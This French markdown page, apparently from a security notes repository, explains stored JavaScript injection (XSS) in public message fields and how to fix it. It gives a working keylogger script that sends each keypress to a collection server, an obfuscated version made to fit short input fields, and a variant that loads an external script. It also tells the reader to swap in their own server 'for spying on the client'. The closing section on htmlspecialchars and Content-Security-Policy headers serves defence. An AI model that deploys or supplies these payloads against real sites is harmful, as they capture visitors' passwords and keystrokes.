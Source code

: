 # Injection JS

## Explication de la faille

Dans certains sites il est possible de laisser des messages que tout le monde va pouvoir afficher. Cependant dans certain cas, ces messages son afficher directement dans le code HTML sans aucune sécurité. Il sera alors possible par le biais des balises `<script>` de placer du code JavaScript du côté client.
Par exemple le bout de code suivant permet de mettre du côté client un keylogger qui va envoyer en temps réel toutes les touches sur lequel aura appuyé, donc potentiellement ses mots de passe.

```html
<script>
const userID = Math.round(Math.random() * 1000000);
document.getElementsByTagName("html")[0].onkeypress = (e) => {
var l = e.which || e.keyCode;
var http = new XMLHttpRequest();
http.open("GET", `http://127.0.0.1:8081/${userID}?l=${l}`, true);
http.send();
}
</script>
```

Voici une version de ce même script obfuscer afin de le faire passer dans des champs plus courts.
```html
<script>var u=Math.round(Math.random()*1000000);document.getElementsByTagName("html")[0].onkeypress=(e)=>{var h=new XMLHttpRequest();h.open("GET",`http://127.0.0.1:8081/${u}?l=${(e.which||e.keyCode)}`,true);h.send()}</script>
```

Dans les deux cas, il faudra remplacer l'URL `127.0.0.1` par l'URL du serveur que vous utiliserez pour l'espionnage du client.

Une variante de l'attaque serait d'injecter une balise script faisant référence à une ressource externe.
```html
<script type="application/javascript" src="http://mon-cdn.com"></script>
```

## Explication du correctif

Pour corriger cette faille, il faut utiliser la fonctionnalité PHP `htmlspecialchars($variable, ENT_QUOTES)` (ou équivalent dans le langage utilisé) qui va encoder les caractères qui pourraient être interprétés dans le DOM afin qu'il ne le soit pas.

Dans le cas ou un utilisateur arriverait quand même à injecter du code, une bonne pratique consiste à limiter les ressources que la page peut importer. Pour ce faire il faut modifier l'entête de la réponse HTTP contenant la page.

```html
<meta http-equiv="Content-Security-Policy" content="default-src 'self'" />
<meta http-equiv="X-XSS-Protection" content="1;mode=block" />
```
